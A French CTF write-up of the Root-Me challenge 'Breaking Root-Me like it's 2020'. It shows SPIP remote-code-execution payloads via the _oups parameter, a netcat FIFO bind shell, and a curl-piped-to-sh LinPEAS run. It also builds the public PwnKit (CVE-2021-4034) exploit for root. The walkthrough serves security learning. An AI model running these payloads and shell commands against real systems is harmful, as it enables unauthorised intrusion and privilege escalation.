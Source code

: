 ```yaml
---
title: Réaliste - Breaking Root-Me like it’s 2020
meta_title: ""
description: Réaliste - Breaking Root-Me like it’s 2020
date: 2024-06-19T18:00:00Z
image: /images/rootme_logo.png
categories:
  - Rootme
  - Réaliste
  - Moyen
author: Demat
tags:
  - web-server
  - php
  - remote-code-execution
  - spip
  - cms
  - privilege-escalation
draft: false
---
```


## Description

### Énoncé

**Lien du challenge : [Réaliste - Breaking Root-Me like it’s 2020](https://www.root-me.org/fr/Challenges/Realiste/Breaking-Root-Me-like-it-s-2020)**

> #### Revivre le frisson d’une RCE sur root-me.org
>
> Hello ! Je suis content que tu aies renouvelé ta cotisation annuelle de 15€ !
>
> Voici ton accès au backend de root-me.org, utilise le à bon escient ! ;)
>
> ```text {linenos=table}
> goodguy@contrib.fr:StronkP4ZZ:)
> ```
>
> Le flag se situe dans /flag.txt
>
> #### Ressources associées
>
> - [https://www.spip.net/](https://www.spip.net/)
> - [https://thinkloveshare.com/en/hacking/rce_on_spip_and_root_me/](https://thinkloveshare.com/en/hacking/rce_on_spip_and_root_me/)
>

### Contexte

Il s'agit d'une faille qui a été découverte sur le site web de Root-Me en 2020. C'est un challenge de type RCE (Remote Code Execution) sur un serveur web. Le but est de trouver une faille permettant d'exécuter du code arbitraire sur le serveur distant, afin de lire le contenu du fichier `/flag.txt`.

### Exploitation

#### Premiers pas

Pour commencer, on démarre le challenge sur la plateforme CTF All The Day. Pour ma part, il est hébergé sur le serveur `ctf06.root-me.org`.

En visitant `http://ctf06.root-me.org/`, on peut voir que le site web du challenge est un clone minimaliste de Root-Me, basé sur SPIP. Il s'agit d'un système de gestion de contenu (CMS) libre, écrit en PHP et distribué sous licence GPL, qui permet de créer et de gérer un site web dynamique.

Vu qu'un compte de contributeur est fourni, on peut se connecter à l'interface de publication du CMS avec le login `goodguy@contrib.fr` et le mot de passe `StronkP4ZZ:)`.

#### Exécution de code arbitraire : article de Laluka

Le second lien fourni dans l'énoncé pointe vers un article de blog qui explique comment l'auteur, Laluka, a réussi à exploiter plusieurs failles de sécurité sur le site web de Root-Me en 2020.
Il a trouvé de multiples vulnérabilités, mais celle qui nous intéresse est la RCE détaillée [vers la fin](https://thinkloveshare.com/hacking/rce_on_spip_and_root_me/#xss-on-oups) de l'article.

Il y donne un exemple de payload qui permet d'exécuter une commande sur le serveur, et d'en afficher le résultat dans la page. Adaptée à notre cas, l'URL est la suivante :

```text
http://ctf06.root-me.org/ecrire/?exec=article&id_article=1&ajouter=non&tri_liste_aut=statut&deplacer=oui&_oups='<?php echo fread(popen("id", "r"), 300);?>
```

*A priori*, rien de spécial. Cependant, si on inspecte le code source de la page, on peut voir que l'injection a fonctionné :
![RCE basique](/images/rootme2020/oups-injection.png)

C'est un bon début, mais ce n'est pas très pratique. On peut améliorer le payload pour afficher proprement le résultat de la commande directement sur la page, et augmenter la taille du buffer pour lire plus de 300 caractères :

```text
http://ctf06.root-me.org/ecrire/?exec=article&id_article=1&ajouter=non&tri_liste_aut=statut&deplacer=oui&_oups='><pre style="text-align: left"><?php echo fread(popen("id", "r"), 1048576);?></pre><br style='
```

Le résultat est alors bien plus simple à lire :
![RCE plus jolie](/images/rootme2020/oups-injection-pretty.png)

Peut-on directement lire le contenu du fichier `/flag.txt` ? Regardons déjà les permissions du fichier :

```text
http://ctf06.root-me.org/ecrire/?exec=article&id_article=1&ajouter=non&tri_liste_aut=statut&deplacer=oui&_oups='><pre style="text-align: left"><?php echo fread(popen("ls -lA /", "r"), 1048576);?></pre><br style='
```

```text {hl_lines=[7,17]}
total 1823824
lrwxrwxrwx   1 root root          7 Jul 31  2020 bin -> usr/bin
drwxr-xr-x   4 root root       4096 Jan  9  2021 boot
drwxr-xr-x   2 root root       4096 Jan  9  2021 cdrom
drwxr-xr-x  18 root root       3980 Jun 20 13:58 dev
drwxr-xr-x  96 root root       4096 Jan 25  2021 etc
-rwx------   1 root root         21 Jan 12  2021 flag.txt
drwxr-xr-x   3 root root       4096 Jan  9  2021 home
lrwxrwxrwx   1 root root          7 Jul 31  2020 lib -> usr/lib
lrwxrwxrwx   1 root root          9 Jul 31  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root          9 Jul 31  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root         10 Jul 31  2020 libx32 -> usr/libx32
drwx------   2 root root      16384 Jan  9  2021 lost+found
drwxr-xr-x   2 root root       4096 Jul 31  2020 media
drwxr-xr-x   2 root root       4096 Jul 31  2020 mnt
drwxr-xr-x   3 root root       4096 Jan  9  2021 opt
-r--------   1 root root         33 Jun 20 13:59 passwd
dr-xr-xr-x 148 root root          0 Jun 20 13:58 proc
drwx------   5 root root       4096 Jan 12  2021 root
drwxr-xr-x  28 root root        840 Jun 20 14:03 run
lrwxrwxrwx   1 root root          8 Jul 31  2020 sbin -> usr/sbin
drwxr-xr-x   6 root root       4096 Jan  9  2021 snap
drwxr-xr-x   2 root root       4096 Jul 31  2020 srv
-rw-------   1 root root 1867513856 Jan  9  2021 swap.img
dr-xr-xr-x  13 root root          0 Jun 20 13:58 sys
drwxrwxrwt   2 root root       4096 Jun 20 13:58 tmp
drwxr-xr-x  14 root root       4096 Jul 31  2020 usr
drwxr-xr-x  14 root root       4096 Jan  9  2021 var
```

Le fichier `/flag.txt` appartient à `root` et n'est accessible en lecture que pour son propriétaire. Il en va de même pour `/passwd`, nécessaire pour valider la box. Le seul moyen de lire ces fichiers est donc d'effectuer une élévation de privilèges.

#### Shell interactif

Essayons déjà d'obtenir un shell interactif pour nous faciliter la tâche. Pour cela, on va utiliser `nc` pour ouvrir un *bind shell* sur le port 31337, par le biais d'une FIFO (named pipe) :

```sh
nohup sh -c 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i|nc -lp 31337 >/tmp/f'
```

```text
http://ctf06.root-me.org/ecrire/?exec=article&id_article=1&ajouter=non&tri_liste_aut=statut&deplacer=oui&_oups='><pre style="text-align: left"><?php echo fread(popen("nohup sh -c 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i|nc -lp 31337 >/tmp/f'", "r"), 1048576);?></pre><br style='
```

On peut maintenant se connecter au shell interactif avec [pwncat]({{< ref "/outils/pwncat-cs/" >}}) :
![Shell interactif avec pwncat](/images/rootme2020/pwncat-1.png)

#### Élévation de privilèges

Essayons de trouver une faille d'élévation de privilèges grâce à LinPEAS :

```sh
$ curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
[...]
╔══════════╣ Executing Linux Exploit Suggester
[...]
[+] [CVE-2021-4034] PwnKit
[...]
```

Entre autres, LinPEAS mentionne la faille [CVE-2021-4034 *"PwnKit"*](https://cyberwatch.fr/cve/cve-2021-4034/), qui affecte Polkit et permet d'obtenir un shell root. Sur Ubuntu 20.04, elle affecte les versions de Polkit inférieures à la version `0.105-26ubuntu1.2`. Vérifions quelle version est installée sur la machine :

```sh
$ dpkg -s policykit-1 | fgrep 'Version'
Version: 0.105-26ubuntu1
```

Bingo ! La version de Polkit semble vulnérable. On peut donc essayer d'exploiter la faille pour obtenir un shell root. J'ai trouvé un exploit fonctionnel sur [GitHub](https://github.com/berdav/CVE-2021-4034) :

```text {hl_lines=["6-11"]}
$ cd /tmp
$ git clone https://github.com/berdav/CVE-2021-4034.git
$ cd CVE-2021-4034
$ make
$ ./cve-2021-4034
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cat /flag.txt
Can[...-censuré-...]
# cat /passwd
df811f94e1e3b4a06f2015a33ec47dc4
```

Et voià, il ne reste plus qu'à valider la box sur la plateforme CTF-ATD et à soumettre le flag !
